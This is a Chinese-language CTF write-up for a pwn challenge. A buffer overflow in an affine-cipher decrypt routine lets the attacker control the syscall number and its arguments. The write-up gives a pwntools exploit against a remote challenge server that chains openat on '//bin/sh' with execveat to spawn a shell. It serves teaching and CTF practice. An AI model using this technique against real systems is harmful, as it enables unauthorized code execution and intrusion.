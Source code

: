 考点：**Linux 系统调用**

系统调用（syscall）是 Linux 内核向用户程序提供的一套接口（API），主要实现了一些比较低层的操作，如文件处理、进程管理和内存管理等。

*注：本题环境为 x86-64 架构。不同架构下，系统调用的方法和编号表有所不同。*

 请参考：[Linux 系统调用表(x86-64)](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

## 程序说明

程序有两个功能：encrypt 和 decrypt，其中只有 decrypt 可用。

decrypt 的功能是：先读取`0x100`字节用户输入，逐字节进行仿射密码解密，最后将解密结果打印出来。

![image](https://user-images.githubusercontent.com/55195054/69850060-5dca2500-12b9-11ea-8773-8146afb9c3a4.png)

#### ① syscall_wrapper(&v8)

`syscall_warpper`是`syscall_safe`的包装函数，即`syscall_wrapper(&v8) -> syscall_safe(v8, v9, v10, v11) `

`syscall_safe`函数接受四个`int`变量为参数，经过简单检查后，将参数分别放入`rax`、`rdi`、`rsi`、`rdx`寄存器，然后执行`syscall`指令。

![image](https://user-images.githubusercontent.com/55195054/69850666-b817b580-12ba-11ea-8434-50eda164e25b.png)

传入`rax`寄存器的值叫做**系统调用编号**，用于指示`syscall`指令执行哪条系统调用，`rdi`、`rsi`和 `rdx`寄存器则是系统调用的前三个参数。

编号为 0 的系统调用是 **read**，结合 `v8`、`v9`、`v10` 和 `v11` 的取值，可知：

![image](https://user-images.githubusercontent.com/55195054/69850202-b1d50980-12b9-11ea-8e40-7bc628869e76.png)

所以：`syscall_wrapper(&v8) -> read(0, s, 0x100)`，即从标准输入读取 0x100 字节到缓冲区`s`。

#### ② s[i] = 0xA7 * (s[i] - 0x23)

逐字节对缓冲区`s`进行[仿射密码](https://zh.wikipedia.org/wiki/%E4%BB%BF%E5%B0%84%E5%AF%86%E7%A2%BC)解密。

解密公式为`s[i] = 0xA7 * (s[i] - 0x23)`，可以推出对应的加密公式为`s[i] = 0x17 * s[i] + 0x23`。

#### ③ syscall_wrapper(&v4) 

同理①，`syscall_wrapper(&v4) -> syscall_safe(v4, v5, v6, v7)` 。

编号为 1 的系统调用是 **write**，结合参数取值，可知`syscall_wrapper(&v4) -> write(1, s, strlen(s))`，即打印缓冲区`s`的内容到标准输出。

## 漏洞点

decrypt 存在**缓冲区溢出漏洞**。

缓冲区`s`的长度只有`0xF0`字节。多余的`0x10`字节会覆盖到相邻的`v4`和`v5`变量上。

![image](https://user-images.githubusercontent.com/55195054/69850117-83efc500-12b9-11ea-9d0c-1f10dbf98790.png)

通过控制`v4`和`v5`，我们可以间接控制：

![image](https://user-images.githubusercontent.com/55195054/69850157-99fd8580-12b9-11ea-828d-93ffb1658dce.png)

因此，我们能够**执行任意系统调用，同时控制第一个和第三个参数**。

## 攻击思路

在 CTF Pwn 中，利用系统调用主要有两种方法：一是用 **open** + **read** 读取 flag。二是用 **execve** 获取 shell。

下面介绍一下 **open** 和 **execve** 系统调用。

```
int open(const char *pathname, int flags);

int execve(const char *pathname, char *const argv[], char *const envp[]);
```

1. **open**（编号 2）  
作用是打开文件，它有两个参数 `pathname` 和 `flags`。  
`pathname` 是文件路径的字符串地址；`flags`代表访问模式，若文件只读，可以设为 NULL。  
返回一个整数`fd`（又叫**文件描述符**）。  有了 `fd`，可以用 **read** 系统调用读取文件内容。  
```
open("/flag", NULL) = fd # 打开 /flag 文件，获得对应的文件描述符 fd
read(fd, s, xxx)         # 将 flag 读取到缓冲区 s (xxx 为缓冲区大小)
```

2. **execve**（编号 59）  
作用是切换进程，它有三个参数，除了 `pathname` 之外，其余参数可以设为 NULL。  
`pathname` 是可执行文件路径的字符串地址，通过 **execve** 系统调用，当前进程可以启动并切换到 `pathname` 对应的可执行文件上。

```
# 如果 pathname 为 "/bin/sh"，效果相当于 system("/bin/sh")，即获取 shell
execve("/bin/sh", NULL, NULL)
```

能够利用 **open** 和 **execve** 的条件是，第一个参数 `pathname` 必须是`"/flag"`或者`"/bin/sh"`字符串的地址。由于程序开启了 PIE 保护，无法知道程序的基地址，所以上述两种方法都不适用于本题。

***

```
Hint2: 257 322
```

我们需要利用两个特殊的系统调用：**openat**（编号 257）和 **execveat**（编号 322）。

```
int openat(int dirfd, const char *pathname, int flags);

int execveat(int dirfd, const char *pathname, char *const argv[], char *const envp[], int flags);
```

与 **open**、**execve** 相比，**openat**、**execveat** 多了一个名为`dirfd`的第一个参数，除此之外功能与其他参数基本上是一样的。在这里，`pathname`变成了第二个参数，恰好是缓冲区`s`地址，因此绕过了 PIE 保护。

我们主要利用了 **openat**、**execveat** 的以下特性：

* 当 `pathname`是以`/`开头的绝对路径时，`openat([任意值], [绝对路径], flags)`等同于`open([绝对路径], flags)`

* 当 `pathname` 是空字符串且 `flags` 为`AT_EMPTY_PATH`时，`execveat(fd, [空字符串], NULL, NULL, AT_EMPTY_PATH)`等同于`execve([fd 指向的文件路径], NULL, NULL)`

攻击思路：**先用 openat 获得 /bin/sh 的 fd，然后利用 execveat 启动 /bin/sh，获得 shell。**

通过调试可知，`fd`的值为3，即攻击需要执行的系统调用如下：

```
openat(NULL, sh_str, strlen(sh_str))
execveat(3, "", NULL, NULL, AT_EMPTY_PATH)
```

***

另外，我们需要确定 **openat** 第三个参数`flags`的值。


**open**/**openat** 的访问模式有三种：`O_RDONLY`（只读）、`O_WRONLY`（只写）和`O_RDWR`（读写），对应数值分别为0、1、2。

```
Hint1: -rwxr-x--- 1 root ctf 121432 Nov 11 13:26 /bin/sh
```

如上可知，远程用户对`/bin/sh`只有读权限，所以要求有`flags &（O_WRONLY | O_RDWR) == 0`，即`sh_str`需要满足条件`strlen(sh_str) & 3 == 0`。

当`sh_str`为`/bin/sh`时，由于`7 & 3 != 0`，参数不正确。

为了满足条件，可以将`sh_str`改为`//bin/sh`，这时`8 & 3 == 0`。

***

还有一个问题，**execveat** 需要控制5个参数，通过缓冲区溢出我们最多能控制前3个。

系统调用第四、第五个参数对应的寄存器为`r10`和`r8`。

仔细检查`syscall_safe`函数，可以发现出题人留下的提示：

```
.text:0000000000000884		xor	r10d, r10d // r10 == 0
.text:0000000000000887		mov	r8d, 1000h // r8  == 0x1000 (AT_EMPTY_PATH)
```
故 **execveat** 所有参数都能满足条件。


***

## 攻击过程

经过一系列调整，最终需要执行的系统调用为：

```
openat(NULL, "//bin/sh", 8)
execveat(3, "", NULL, NULL, AT_EMPTY_PATH)
```

首先打开一个远程连接
```
p = remote("34.80.207.78", 10004)
```
为了方便发送攻击 payload，我们写了一个`decrypt`函数，让 payload 发送前先经过仿射密码加密。

```
def decrypt(data):
    p.sendlineafter(">", '1')
    # 仿射密码加密
    data_enc = ''
    for c in data:
        data_enc += chr((ord(c) * 0x17 + 0x23) % 0x100)
    p.sendlineafter("context:", data_enc)
```

执行 **openat** 系统调用：

```
SYS_openat = 257
# openat(0, "//bin/sh", 8)
payload  = "//bin/sh".ljust(0xF0, '\x00')
payload += p64(SYS_openat)
payload += p64(0)
decrypt(payload)
```

执行 **execveat** 系统调用：

```
STUB_execveat = 322
fd = 3
# execveat(3, "", NULL, NULL, AT_EMPTY_PATH);
payload  = '\x00' * 0xF0 
payload += p64(STUB_execveat) 
payload += p64(fd)
decrypt(payload)
```

攻击成功后，我们可以获取一个 shell，运行命令`cat flag.txt`即可获得 flag。
```
p.interactive()
```
